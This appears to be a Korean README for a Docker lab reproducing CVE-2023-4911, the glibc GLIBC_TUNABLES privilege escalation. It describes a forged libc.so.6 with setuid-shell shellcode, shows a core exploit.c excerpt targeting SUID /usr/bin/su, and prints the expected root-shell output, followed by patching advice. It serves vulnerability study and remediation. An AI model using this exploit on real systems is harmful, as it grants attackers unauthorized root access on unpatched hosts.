




# CVE-2023-4911 - glibc ld.so GLIBC_TUNABLES Local Privilege Escalation

## 취약점 요약

CVE-2023-4911은 GNU C Library(glibc)의 동적 로더 `ld.so`가 `GLIBC_TUNABLES` 환경 변수를 처리하는 과정에서 발생한 buffer overflow 취약점이다. 로컬 사용자가 조작된 `GLIBC_TUNABLES` 값을 설정한 뒤 SUID 권한이 있는 프로그램을 실행하면, 취약한 환경에서 root 권한 상승으로 이어질 수 있다.

- 취약점: CVE-2023-4911, Looney Tunables
- 영향 대상: glibc 2.34 이후 일부 배포판 패치 전 버전
- 실습 환경: `ubuntu:jammy-20230816`
- 공격 조건: 로컬 사용자 권한, SUID 바이너리 존재
- CVSS: 7.8 High
- Ubuntu 22.04 LTS 패치 버전: `glibc 2.35-0ubuntu3.4` 이상

## 환경 구성

아래 명령으로 Docker 이미지를 빌드하고 컨테이너를 실행한다.

```bash
cd Glibc/CVE-2023-4911
docker compose up -d --build
docker compose exec cve-2023-4911 bash
```

깨끗한 환경에서 강제로 다시 빌드하려면 다음 명령을 사용한다.

```bash
docker compose build --no-cache
docker compose up -d
```

## 취약 조건

이 실습 환경은 다음 조건을 만족하도록 구성되어 있다.

- 패치 전 Ubuntu 22.04 기반 glibc 사용
- 일반 사용자 `appuser`로 컨테이너 접속
- SUID 권한이 설정된 `/usr/bin/su` 존재
- `GLIBC_TUNABLES` 환경 변수 조작 가능
- PoC 실행에 필요한 변조된 `libc.so.6`이 컨테이너 내부에 포함됨

컨테이너 내부에서 조건을 확인한다.

```bash
id
ldd --version
ls -l /usr/bin/su
ls -l ./exploit './"/libc.so.6'
```

## 재현 절차

컨테이너 내부에서 아래 명령을 실행한다.

```bash
id
./exploit
```

PoC는 ASLR의 영향을 받기 때문에 여러 번 반복 실행될 수 있다. 성공하면 `/usr/bin/su`의 SUID 실행 흐름에서 변조된 `libc.so.6`이 로드되고, `setuid(0)` 이후 `/bin/sh`가 실행되어 root shell이 열린다.

root shell이 열리면 아래 명령으로 권한 상승 결과를 확인한다.

```bash
id
whoami
```

성공 기준은 다음과 같다.

```text
uid=0(root) gid=1000(appuser) groups=1000(appuser)
root
```

## PoC 코드

PoC는 두 파일로 구성된다.

- `genlib.py`: 컨테이너의 취약 glibc에서 `__libc_start_main` 위치를 찾고, `setuid(0); execve("/bin/sh")` shellcode가 들어간 변조 `libc.so.6`을 생성한다.
- `exploit.c`: `GLIBC_TUNABLES` overflow를 이용해 SUID 프로그램인 `/usr/bin/su` 실행 중 변조된 `libc.so.6`이 로드되도록 환경 변수를 구성한다.

핵심 실행 흐름은 다음과 같다.

```c
char *argv[] = {"/usr/bin/su", "--help", NULL};

envp[0] = filler;
envp[1] = kv;
envp[0x65 + 0xb8] = "\x30\xf0\xff\xff\xfd\x7f";

execve(argv[0], argv, envp);
```

## 실행 결과

### 1. Docker 이미지 빌드



### 2. 컨테이너 실행 확인



### 3. 취약 조건 확인



### 4. PoC 실행 후 root 권한 획득



예상 출력 예시는 다음과 같다.

```text
appuser@...:~$ id
uid=1000(appuser) gid=1000(appuser) groups=1000(appuser)

appuser@...:~$ ./exploit
[*] CVE-2023-4911 local privilege escalation PoC
[*] Repeatedly executing /usr/bin/su until the forged libc is loaded.
[*] If exploitation succeeds, an interactive root shell opens.
[*] try 100
[*] try 200
# id
uid=0(root) gid=1000(appuser) groups=1000(appuser)
# whoami
root
```

## 대응 방안

glibc를 배포판에서 제공하는 패치 버전 이상으로 업데이트한다.

Ubuntu 22.04 LTS 기준 패치 버전은 `2.35-0ubuntu3.4` 이상이다.

```bash
sudo apt-get update
sudo apt-get install --only-upgrade libc6
ldd --version
```

운영 환경에서는 다음 조치도 함께 적용한다.

- SUID 바이너리 최소화
- 컨테이너를 불필요한 root 권한으로 실행하지 않기
- 배포판 보안 업데이트 자동 적용 또는 정기 점검
- 취약 이미지 태그를 운영 환경에서 사용하지 않기

## Risk Score

- Attack Vector: Local
- Attack Complexity: Low
- Privileges Required: Low
- User Interaction: None
- Scope: Unchanged
- Confidentiality: High
- Integrity: High
- Availability: High

최종 Risk Score: 7.8 / 10.0

## 참고 자료

- NVD, CVE-2023-4911: https://nvd.nist.gov/vuln/detail/CVE-2023-4911
- Qualys Security Advisory, Looney Tunables: https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt
- Ubuntu CVE-2023-4911: https://ubuntu.com/security/CVE-2023-4911
- Debian DSA-5514-1 glibc security update: https://www.debian.org/security/2023/dsa-5514
- Exploit implementation reference: local PoC structure based on the public `blasty-vs-looney` style exploit technique.
